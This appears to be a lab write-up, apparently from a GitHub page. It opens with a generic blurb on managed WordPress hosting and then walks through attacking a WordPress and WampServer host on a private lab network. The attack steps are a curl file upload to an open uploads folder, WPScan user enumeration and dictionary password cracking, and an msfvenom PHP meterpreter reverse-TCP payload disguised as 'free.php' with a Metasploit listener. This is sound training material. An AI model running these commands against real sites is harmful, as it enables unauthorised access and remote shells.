 Managed WordPress hosting is a distinct sub-category of web hosting configured to optimize sites built on this content management system.
WordPress is the world’s most popular CMS, with around 42.5% of all websites using it. This is why many web hosting companies offer managed WordPress hosting services.
Depending on the web host, WordPress hosting can fall under different web hosting categories. For example, different hosting providers may offer Shared WordPress hosting, VPS WordPress hosting, or Cloud WordPress hosting.
The advantages of hosting a WordPress site, there are many benefits to choosing a managed WordPress hosting plan over a regular shared web hosting service plan. Examples of 
Easier Setup -> Pre-installed plugins and themes help create an optimized wordpress host environment, easing technical setups and installations. 
Optimal Performance -> They use a server that has been configured specifically for WordPress sites, often built in caching software is also included to ensure fast loading speed. 
Up-to-date servers and software -> web hosts ensure their wordpress specific servers run the latest software, resulting in optimal compatibility and seamless performance. 
Hassle-free management -> Leave most of the WordPress technicalities to your web hosting plans and focus on other factors like improving search engine optimization strategies. 

After we ran nmap from our Kali Linux on our Windows Server 08, we can see that other ports are open as well, we will now exploit a wordpress site from the list below. 
![open ports](https://user-images.githubusercontent.com/93686063/201990303-3fc5f9b6-b9eb-4d42-8930-7c002deaecaa.JPG)

$`WPScan` is a helpful tool which can help us to enumerate a Wordpress site. It can look for credentials as well as information about the WordPress Site. According to W3Techs, 2022 Wordpress is used by 43.2% of all the websites on the Internet. Two out of every five websites on the Internet use WordPress. WPScan also has a password cracker, it can help check your website for weak authentication credentials. You would need to provide WPScan with a passwrod dictionary of your choosing. 

We will be exploiting the $`Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2` which is in port 8585 for the next exercise. If we type in the $`10.0.2.8:8585` we can see a Wampserver which is used to host a Wordpress website. Now we will see if we can upload anything on the site. First we will test out if we can upload a file into the server. we will do a regular $`echo` command in order to upload a file. $`echo "Hello World" > test.php` After we create the file, now we need to upload the file in the Wamp Server. 

In order to upload the file to the server, we use the $`curl` command. $` curl http://10.0.2.8:8585/uploads/ --upload-file test.php` We go back to the browser and see that the file has been uploaded. A MAJOR SECURITY VULNERABILITY. 
Before we use the WPScan, we need to update the db. After the update we do $`wpscan --url http://10.0.2.8:8585/wordpress -e(enumerate) vp(verbose), u(username)` This will do the scanning, under interesting findings it will have things that we can look for. It will also show users identified and if possible will get the passwords. 
We can now try to get the passwords by adding a dictionary password file. $`wpscan --url http://10.0.2.8:8585/wordpress --passwords /usr/share/wordlists/metasploit/password.lst` It will try to find the password using the values in the password file. You as an attacker will have to play around and see if you can add a different file to find the right password. It did not find any passwords, this is a tedious process so we might have to try different things in order to make sure we get the right. 


$`Now we will try a different method in order to get to the system using MSFVenom`


Now that we know that we can upload a file, we will be using msfvenom in order to get a meterpreter session. We will open a new terminal and first search for a `reverse_tcp`. We will type in $`msfvenom --list payloads | grep php` the grep command will look for payloads which have php on it. When we find it we will type $`msfvenom --payload php/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 > free.php` this is create a payload and save it as `free.php` We will need to upload this `free.php` to the uploads folder so that when somebody clicks on it, then it will connect back to our listener. 

After this we will go back to the msfconsole, $`msf6 > use exploit/multi/handler`. Here we are setting up the listener. We want the user to connect back to me. After this we do options so as to see what parameters we need to set in order to use the exploit. We have to set the $`Lhost` and $`Lport` and we need to add the $`payload options` we will type in set payload options `php/meterpreter/reverse_tcp`. Voila, once we go back to the browser and click on the new file that we just created, we should get the meterpreter shell. :-)


![shell](https://user-images.githubusercontent.com/93686063/202188651-55649925-88ba-49df-bd97-b36750468c41.JPG)




